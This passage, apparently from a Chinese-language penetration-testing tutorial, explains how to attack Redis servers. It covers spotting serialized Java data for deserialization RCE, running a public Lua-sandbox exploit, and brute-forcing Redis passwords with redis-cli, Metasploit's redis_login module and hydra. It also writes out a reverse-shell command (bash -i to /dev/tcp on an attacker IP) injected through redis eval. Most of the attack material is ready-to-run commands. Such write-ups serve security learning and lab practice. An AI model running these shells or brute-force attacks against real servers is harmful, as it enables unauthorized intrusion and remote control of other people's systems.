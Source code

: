 
###### 2.反序列化rce
当遇到 redis 服务器写文件无法 getshell，可以查看redis数据是否符合序列化数据的特征。
```
jackson：关注 json 对象是不是数组，第一个元素看起来像不像类名，例如["com.blue.bean.User",xxx]
fastjson：关注有没有 @type 字段
jdk：首先看 value 是不是 base64，如果是解码后看里面有没有 java 包名
```
https://mp.weixin.qq.com/s/ungjainqdPhA_dDOOMKn4Q



###### 3.lua rce
>适用于高权限运行低版本redis的lua虚拟机，写文件失败时进行尝试

使用`info server` 和 `eval “return _VERSION” 0 `命令可以查看当前redis版本和编译信息。

exp
```
https://github.com/QAX-A-Team/redis_lua_exploit/
```

修改`redis_lua.py`中目标地址为靶机的地址和端口

<img src="https://image.geoer.cn/20200526092701919_308935847.png"/>

运行exp

执行成功后就可以进行命令执行了，这里反弹shell
```bash
eval "tonumber('/bin/bash -i >& /dev/tcp/192.168.0.105/5555 0>&1', 8)" 0
```


#### 三、redis密码爆破

1.使用redis-cli连接，使用-a参数指定密码操作。
```bash
redir-cli -h 192.168.0.100 -a admin123
# 这个好像没这么实用感觉，也许可以写成脚本批量跑
```


2.msf的`auxiliary/scanner/redis/redis_login`模块
```bash
use auxiliary/scanner/redis/redis_login
set rhost ...
set threads ...
set pass_file xxxxxxx.txt
run
```
<img src="https://image.geoer.cn/20200526094633220_1454687311.png"/>

3.hydra
```bash
# 还是hydra好用，速度还快
hydra -P redis_pass.txt redis://192.168.0.100
```
<img src="https://image.geoer.cn/20200526095113424_1824777352.png"/>
